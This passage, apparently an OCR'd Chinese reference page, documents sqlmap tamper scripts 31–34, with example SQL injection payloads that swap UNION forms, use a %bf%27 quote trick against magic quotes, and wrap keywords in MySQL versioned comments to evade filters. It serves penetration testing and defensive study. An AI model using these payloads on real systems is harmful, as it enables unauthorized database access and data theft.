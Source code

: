 (31) unionalltounion.py 以”union all”替换”union” 
Example: 
* Input: -1 UNION ALL SELECT 
* Output: -1 UNION SELECT 

(32) unmagicquotes.py 以”%bf%27”替换单引号，并在结尾添加注释”--” 
Example: 
* Input: 1' AND 1=1 
* Output: 1%bf%27 AND 1=1--%20 

(33)versionedkeywords.py 对不是函数的关键字条件注释 
Example: 
* Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))# 
* Output:  1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/,CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#
Requirement: 
* MySQL 


(34) versionedmorekeywords.py 对关键字条件注释 
Example: 
* Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))# 
* Output: 1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS*//*!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))#
Requirement: 
* MySQL >= 5.1.13
